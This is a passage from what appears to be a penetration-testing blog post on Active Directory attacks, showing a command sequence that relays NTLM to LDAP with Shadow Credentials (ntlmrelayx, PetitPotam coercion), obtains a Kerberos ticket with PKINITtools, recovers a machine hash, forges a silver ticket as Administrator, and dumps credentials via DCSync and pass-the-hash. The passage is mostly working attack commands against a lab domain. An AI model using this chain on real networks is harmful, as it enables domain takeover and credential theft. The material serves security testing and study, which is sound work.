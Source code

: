   <img src="/assets/img/20251029/13.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Impersonating Administrator</div>
</div>

We can also exploit NTLM relay to LDAP/LDAPS using the Shadow Credentials technique as follows, especially when we cannot add a computer account. For more details on Shadow Credentials and the technique to generate silver tickets, see ["Shadow Credentials"](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials), ["UnPAC the hash"](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash), and ["Silver tickets"](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver) from The Hacker Recipes.
```sh
# NTLM relay to LDAP for Shadow Credentials
sudo python3 ntlmrelayx.py -smb2support -t ldap://dc2.kawakatz.local --remove-mic --shadow-credentials --shadow-target 'DC1$' --no-dump --no-da --no-acl --no-validate-privs
python3 PetitPotam.py -d kawakatz.local -u coward -p 'P@ssw0rd' <attacker ip> dc1.kawakatz.local

# Issue a TGT with the certificate for Shadow Credentials
# https://github.com/dirkjanm/PKINITtools
python3 gettgtpkinit.py -cert-pfx <cert.pfx> -pfx-pass <pfx pass> kawakatz.local/'DC1$' /tmp/DC1.ccache -dc-ip <dc ip>

# Abuse UnPAC the Hash and generate a silver ticket to impersonate Administrator
export KRB5CCNAME=/tmp/DC1.ccache
python3 getnthash.py -key <key from gettgtpkinit.py> -dc-ip <dc ip> kawakatz.local/'DC1$'
sudo python3 ticketer.py -domain-sid <domain sid> -domain kawakatz.local -spn cifs/dc1.kawakatz.local -nthash <dc1 hash> -user-id 500 Administrator
export KRB5CCNAME=Administrator.ccache
sudo python3 smbclient.py -k -no-pass kawakatz.local/Administrator@dc1.kawakatz.local

# Perform DCSync as another example
export KRB5CCNAME=/tmp/DC1.ccache
sudo python3 secretsdump.py -k -no-pass kawakatz.local/'DC1$'@dc2.kawakatz.local -just-dc-user Administrator
netexec smb <dc ip> -u Administrator -H <hash>
```
<div style="text-align: center; margin: 20px 0;">